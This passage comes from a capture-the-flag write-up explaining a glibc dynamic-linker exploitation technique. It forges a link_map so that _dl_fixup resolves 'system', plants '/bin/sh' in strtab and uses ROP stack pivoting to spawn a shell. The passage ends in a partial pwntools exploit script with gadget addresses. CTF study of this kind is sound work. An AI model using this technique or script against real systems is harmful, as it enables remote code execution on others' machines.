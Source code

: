 Now the expression strtab + sym->st_name is parsed as first parameter to _dl_lookup_symbol_x. To optimize this, the compiler should put strtab into $rdi at line 69 and later add sym->st_name before calling this function.
In our case we never hit this line but $rdi will still contain the pointer to strtab. We can simply put "/bin/sh" in strtab as we never use strtab for anything important. Furthermore elf_ifunc_invoke expects a function with parameters parsed on the stack so it wil not clobber $rdi.

Before calling _dl_fixup we make another "read" rop-chain, to pop a new $rbp. We will execute this rop chain at an other location than 0x2000004000+0x8 because everything before 0x2000004000 is not writeable and we need some more writeable stack space.

Our way of arbitrary writing, needs the a new rop chain to start at 0x18 in the buffer we send.
This means that we have to limit our rop chain size to not overlap with the relevant parts of the link_map.
Fortunately the first relevant part of the link_map is the l_info[5] at offset 0x48 leaving plenty of space for our small rop chain stack pivoting.

We can now call "system" with "/bin/sh" as the command line and we get a shell :-)

## Summary
We first create a fake_link table at address 0x2000004000 with "read" as the load address. We then call _dl_fixup with our fake link_map on the stack, and compute the address to call by taking link_map.laddr + sym->st_value, which makes "system" if we setup "sym" just right. We make the link_maps strtab contain "/bin/sh" and system("/bin/sh") will be called. 

## Exploit
Here is the exploit. It is worth noticing that this exploit also works on the two other challenges mentioned with very little modification even though it is not at all the intended solution. We think this illustrates how powerful a techniques this is. Furthermore this should work on most versions of glibc with the only constraint being that the compiler needs to put strtab in $rdi early on in _dl_fixup which O3 most certainly will.
```C
from pwn import *
import ctypes

context.clear(binary = ELF('./readme.elf'))
io = remote('127.0.0.1', 1024)
libc = ELF('./libc-2.31.so')
elf = context.binary

def send(by):
    sleep(0.1) # small sleep to encures last read has read entire buffer
    io.send(by)

#gadgets
leave = 0x200000105b
_dl_fixup = 0x2000001006
readAddr = 0x2000001048
popRbp = 0x200000105e

def createReadRopChain(addr: int):
    rop = ROP(elf)
    rop.raw(popRbp)
    rop.raw(addr+0x10)
    rop.raw(readAddr)
    return rop.chain()

class Elf64_Rel(ctypes.Structure):
    _fields_ = [("r_offset", ctypes.c_uint64),
                ("r_info", ctypes.c_uint64)]

class Elf64_Sym(ctypes.Structure):
    _fields_ = [("st_name", ctypes.c_uint32),
                ("st_info", ctypes.c_uint8),
```